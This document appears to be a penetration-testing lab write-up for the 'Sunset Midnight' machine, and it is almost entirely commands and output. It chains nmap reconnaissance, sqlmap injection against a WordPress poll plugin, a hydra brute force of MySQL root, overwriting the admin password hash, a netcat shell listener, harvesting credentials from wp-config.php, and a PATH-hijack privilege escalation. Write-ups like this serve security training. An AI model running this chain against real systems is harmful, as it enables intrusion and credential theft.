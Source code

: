 # Sunset Midnight

***

IP=192.168.155.88

| PORT     | STATE | SERVICE |
| -------- | ----- | ------- |
| 22/tcp   | open  | ssh     |
| 80/tcp   | open  | http    |
| 3306/tcp | open  | mysql   |

## NMAP

```perl
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open   http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3036/tcp closed hagel-dump
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
whatweb http://$IP
http://192.168.155.88 [301 Moved Permanently] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.155.88], RedirectLocation[http://sunset-midnight/], UncommonHeaders[x-redirect-by]
```

### /etc/hosts

```txt
IP  midnight-host
```

### Wordpress

WordPress 5.4.2

#### simply-poll-master

vulnerable to sqli

```bash
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2"
```

## Mysql 3306

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql -t 5
```

> root:robert

```bash
echo -n "password" | md5sum
5f4dcc3b5aa765d61d8327deb882cf99
```

```mysql
use wordpress_db;
update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1;
```

## Login wordpress

!\[\[Pasted image 20231022130312.png]]

```bash
nc -lvnp 1234
```

## PrivEsc

```bash
cat /var/www/html/wordpress/wp-config.php
```

jose:645dc5a8871d2a4269d4cbe23f6ae103

### Unknown SUID binary

```bash
strings /usr/bin/status
```



<figure><img src="../.gitbook/assets/Pasted image 20231022131717.png" alt=""><figcaption></figcaption></figure>

### Path hijacking

```bash
export PATH=/tmp/:$PATH
cd /tmp
touch service
echo "/bin/sh" > service
chmod +x service
/usr/bin/status
```
